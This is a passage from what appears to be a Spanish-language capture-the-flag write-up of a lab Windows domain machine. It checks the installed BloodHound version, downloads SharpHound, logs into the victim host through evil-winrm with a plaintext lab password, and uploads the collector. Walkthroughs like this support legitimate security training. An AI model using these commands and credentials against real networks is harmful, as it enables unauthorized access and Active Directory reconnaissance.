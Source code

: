 ![](/assets/img/Support/image_12.png)

`Listamos` la `versión` de nuestro `bloodhound`, en este caso en la `4.3.1`

```
# apt show bloodhound                      

Package: bloodhound
Version: 4.3.1-0kali2
Priority: optional
Section: misc
Maintainer: Kali Developers <devel@kali.org>
Installed-Size: 274 MB
Depends: neo4j
Homepage: https://github.com/BloodHoundAD/BloodHound
Download-Size: 69.3 MB
APT-Manual-Installed: yes
APT-Sources: http://http.kali.org/kali kali-rolling/main amd64 Packages
Description: Six Degrees of Domain Admin
 This package contains BloodHound, a single page Javascript web application.
 BloodHound uses graph theory to reveal the hidden and often unintended
 relationships within an Active Directory environment. Attackers can use
 BloodHound to easily identify highly complex attack paths that would otherwise
 be impossible to quickly identify. Defenders can use BloodHound to identify and
 eliminate those same attack paths. Both blue and red teams can use BloodHound
 to easily gain a deeper understanding of privilege relationships in an Active
 Directory environment.
```

Nos descargamos `sharphound` [https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.1](https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.1) y desde el `mismo directorio` donde está `SharpHound.exe` nos `conectamos` usando `evil-winrm` y `subimos` el `archivo` a la `máquina víctima`

```
# evil-winrm -i 10.129.95.180 -u 'support' -p 'Ironside47pleasure40Watchful' 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> upload SharpHound.exe
```